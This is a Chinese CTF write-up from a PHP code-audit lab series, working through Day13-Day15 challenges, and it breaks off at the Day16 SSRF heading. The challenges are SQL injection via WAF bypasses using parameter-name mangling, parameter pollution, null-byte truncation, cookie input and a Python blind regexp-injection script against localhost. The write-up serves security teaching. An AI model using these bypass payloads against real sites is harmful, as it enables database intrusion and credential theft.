## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。在每篇文章的最后，我们都留了一道CTF题目，供大家练习。下面是 **Day9-Day12** 的题解：

## Day-13题解(By l1nk3r)

题目如下：



在做Day13之前，我们先来了解一些需要用到的基础知识。

- 对于传入的非法的 **$_GET** 数组参数名，PHP会将他们替换成 **下划线** 。经过fuzz，有以下这些字符：



- 当我们使用HPP（HTTP参数污染）传入多个相同参数给服务器时，PHP只会接收到后者的值。（这一特性和中间件有关系）



- 通过 **$_SERVER['REQUEST_URI']** 方式获得的参数，并不会对参数中的某些特殊字符进行替换。



这里的代码中有两个waf。

第一个WAF在代码 **第29行-第30行** ，这里面采用了 **dowith_sql()** 函数，跟进一下 **dowith_sql()** 函数，该函数主要功能代码在 **第19-第26行** ，如果 **$_REQUEST** 数组中的数据存在 **select|insert|update|delete** 等敏感关键字或者是字符，则直接 **exit()** 。如果不存在，则原字符串返回。



而第二个WAF在代码 **第33行-第39行** ，这部分代码通过 **$_SERVER['REQUEST_URI']** 的方式获取参数，然后使用 **explode** 函数针对 **&** 进行分割，获取到每个参数的参数名和参数值。然后针对每个参数值调用 **dhtmlspecialchars()** 函数进行过滤。



跟进一下 **dhtmlspecialchars()** 函数，发现其相关功能代码在 **第3行-第14行** ，这个函数主要功能是针对 **'&', '"', '<', '>', '(', ')'** 等特殊字符进行过滤替换，最后返回替换后的内容。从 **第44行和第45行** 的代码中，我们可以看到这题的参数都是通过 **REQUEST** 方式获取。我们可以先来看个例子：



第一次 **$_REQUEST** 仅仅只会输出 **i_d=2** 的原因是因为php自动将 **i.d** 替换成了 **i_d** 。而根据我们前面说的第二个特性，PHP取最后一个参数对应的值，因此第一次 **$_REQUEST** 输出的是2。

第二次 **$_REQUEST** 会输出 **i_d=select&i.d=2** 是因为 **\$_SERVER['REQUEST_URI']** 并不会对特殊的符号进行替换，因此结果会原封不动的输出。所以这题的payload可以根据下面这个思维导图进行构造：



- 我们通过页面请求 **i_d=padyload&i.d=123** 。
- 当数据流到达第一个WAF时，php会将参数中的某些特殊符号替换为下划线。因此便得到了两个 **i_d** ，所以此时的payload变成了 **i_d=payload&i_d=123** 。
- 前面我们介绍了，如果参数相同的情况下，默认 **第二个参数传入的值** 会覆盖 **第一个参数传入的值** 。因此此时在第一个WAF中 **i_d=123** ，不存在其他特殊的字符，因此绕过了第一个WAF。
- 当数据流到达进入到第二个WAF时，由于代码是通过 **$_SERVER['REQUEST_URI']** 取参数，而我们前面开头的第三个知识点已经介绍过了 **$_SERVER['REQUEST_URI']** 是不会将参数中的特殊符号进行转换，因此这里的 **i.d** 参数并不会被替换为 **i_d** ，所以此时正常来说 **i.d** 和 **i_d** 都能经过第二个WAF。
- 第二个WAF中有一个 **dhtmlspecialchars()** 函数，这里需要绕过它，其实很好绕过。绕过之后 **i_d=payload&i.d=123** 便会进入到业务层代码中，执行SQL语句，由于这里的SQL语句采用拼接的方式，因此存在SQL注入。

因此最后payload如下：

```php
http://127.0.0.1/index.php?submit=&i_d=-1/**/union/**/select/**/1,flag,3,4/**/from/**/ctf.users&i.d=123
```



## Day14题解：(By 七月火)

这次的CTF题目考察的是一个SQL注入问题，且解法有两种（PHP版本为5.2.x）。我们先来看一下整个网站的框架。

```php
www                      应用部署目录
 ├─css                   存放css静态文件
 ├─image                 存放图片文件
 ├─config.php            连接mysql的配置文件
 ├─content.php           留言查看文件
 ├─do.php                留言文件
 ├─function.php          全局功能函数
 ├─global.php            全局过滤文件
 ├─index.php             主页文件
 ├─login.php             登录文件
 ├─logout.php            登出文件
 ├─register.php          注册文件
 ├─waf.php               WAF文件
```

在观察程序的过程中，我们明显发现 **content.php** 文件中存在 **变量覆盖** 和 **SQL注入** 漏洞。但是在程序开头，引入了全局过滤文件 **global.php** ，我们这里还要看看它是如何进行过滤的。





从下面的图片中，我们可以明显看到程序对 **GET** 、 **POST** 、 **COOKIES** 三种数据处理方式不一样。下面，我们分别来看这两种解法。



### 解法一

可以通过 **GET** 或 **POST** 向 **content.php** 文件传递如下 **payload** 获取flag：

````php
message_id=-1/*%00*/union/**/select/**/1,flag,3,4/**/from/**/flag
````

如果是 **GET** 方式传递数据的话，数据会经过 **filtering** 函数过滤，而在 **filtering** 函数中，开头的 **eregi** 检测，我们又可以使用 **%00** 截断绕过，但是下方还有循环替换恶意字符的代码，这里无法绕过。 **filtering** 函数代码如下：



也就是说我们的 **payload** 经过 **filtering** 函数处理后变成了下面这样（ **select** 被过滤掉了）：

```php
-1/*%00*/union/**//**/1,flag,3,4/**/from/**/flag
```

当我们继续看代码时，会发现下面的代码又把 **message_id ** 变量的值还原了。因为 **content.php** 文件中有代码： `extract($_REQUEST)` ，所以这里也就造成了注入。



那如果是 **POST** 方式传送数据，会先经过 **filtering** 函数处理，然后经过 **safe_str** 函数。 **safe_str** 函数主要用了 **addslashes** 函数过滤数据，可以发现对我们的 **payload** 并没有影响。 **safe_str** 函数代码如下：



这里能进行注入的原因，主要是因为超全局数组 **$_REQUEST** 中的数据，是 **$_GET** 、 **$_POST** 、 **$_COOKIE** 的合集，而且数据是复制过去的，并不是引用。所以对 **$_GET** 、 **$_POST** 处理并不会影响 **$_REQUEST** 中的数据。



### 解法二

第二种解法是通过 **COOKIE** 的方式进行解题。我们会发现程序对 **COOKIE** 数据的处理方式，明显和处理 **$_GET** 、 **$_POST** 的方式不一样。对 **COOKIE** 数据的处理方式具体如下：



**payload** 为：**message_id=0 union select 1,2,flag,4 from flag** 现在连 **eregi** 函数都不用绕了。


## Day15题解：(By 七月火)

Day15的CTF考察的还是绕过WAF进行SQL注入，具体题目如下：



我们可以看到 **第25-26行** ，只要我们知道 **Admin** 用户的密码，就能拿到flag。在 **第11行** 处 **$_GET[user]** 和 **$_GET[pwd]** 两个变量可控，存在SQL注入。再看 **第6-7行** ，当中过滤了 **#** 、 **-** 号，那么我们就无法进行常规的注释，但是我们可以用 **;%00** 来进行注释。 **$black_list** 还过滤了很多字符串截取函数，这里我们可使用 **regexp** 来解决。最终我们的payload如下：

```php
http://localhost/CTF/?user=\&pwd=||1;%00
对应SQL语句为：
select user from users where user='\' and pwd='||1;'
等价于：
select user from users where user='xxxxxxxxxxx'||1#
```



根据以上分析，我们可以写出如下python程序：

```python
import string
import requests
import re
char_set = '0123456789abcdefghijklmnopqrstuvwxyz_'
pw = ''
while 1:
    for ch in char_set:
        url = 'http://localhost/CTF/?user=\\&pwd=||pwd/**/regexp/**/"^%s";%%00'
        r = requests.get(url=url%(pw+ch))
        if 'Welcome Admin' in r.text:
            pw += ch
            print(pw)
            break
    if ch == '_': break
r = requests.get('http://localhost/CTF/?user=&pwd=%s' % pw)
print(re.findall('HRCTF{\S{1,50}}',r.text)[0])
```



## Day16题解：(By 七月火)

Day16的CTF考察的是 **SSRF漏洞** ， **flag** 只有通过 **127.0.0.1** 的IP去请求 **flag.php** 文件，才能获得flag。具体题目如下：

